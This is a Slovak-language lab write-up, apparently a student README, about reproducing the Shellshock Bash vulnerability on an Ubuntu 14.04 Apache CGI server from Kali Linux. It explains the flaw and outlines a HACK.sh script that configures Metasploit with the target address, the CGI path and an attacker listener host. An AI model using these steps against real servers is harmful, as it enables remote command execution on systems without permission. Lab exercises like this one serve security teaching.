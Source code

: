 # Otestovanie zraniteľnosti Shellshock na Ubuntu 14.04

CVE-2014-6271, známe aj ako „Shellshock“, bolo objavené v septembri 2014 bezpečnostným výskumníkom Stéphane Chazelasom. 
Využíva chybu v príkazovom interpretery Bash od verzie 1.14 po 4.3. Zraniteľné boli všetky zariadenia, 
ktoré ho používali. Vzdialenému útoku boli však vystavení iba používatelia, ktorí boli pripojení na internet. Okrem 
toho je potrebný určitý softvér, ktorý poskytuje cestu, cez ktorú sa útočník môže dostať k príkazovému interpreteru 
Bash, napríklad pri webovom serveri Apache je to CGI, ktorý slúži na interakciu s jeho programami. Experti 
vypočítali, že „Shellshock“ sa týkal vyše 500 miliónov zariadení.

Zraniteľnosť vzniká kvôli chybe v spracovaní premenných prostredia v príkazovom interpretery Bash, najmä definície 
funkcií. Toto sa dá zneužiť na vykonanie ľubovoľného kódu, získanie neoprávneného prístupu k systému, poprípade 
vykonanie rôznych útokov, ako napríklad DoS, Code Injection alebo Remote Command Execution.

## Konfigurácia Ubuntu

Pre otestovanie sme si stiahli verziu webového servera Apache verzie 2.4.7 a overili verziu príkazového interpreteru 
Bash, ktorá bola verzie 4.3.8. Následne sme si vytvorili a vložili na server CGI skript, konkrétne `hw.sh`. V súbore 
VAGRANT sme si nastavili adresu IP, na ktorú budeme útočiť: `192.168.50.20`.

## Konfigurácia Kali Linux 

Pre zaútočenie sme si vložili súbor HACK na plochu distribúcie. Útok spustíme pomocou príkazu: 

```shell
./HACK.sh
```

HACK.sh nám otvorí nástroj `msfconsole` a nastaví tam IP zraniteľnej mašiny pomocou `set RHOSTS 192.168.50.20` a cestu
`set TARGETURI /cgi-bin/hw.sh`, čo nám nastaví cestu k skriptu CGI. Ostáva nám nastaviť IP útočníka `set LHOSt 192.168.50.21`
a spustiť útok.
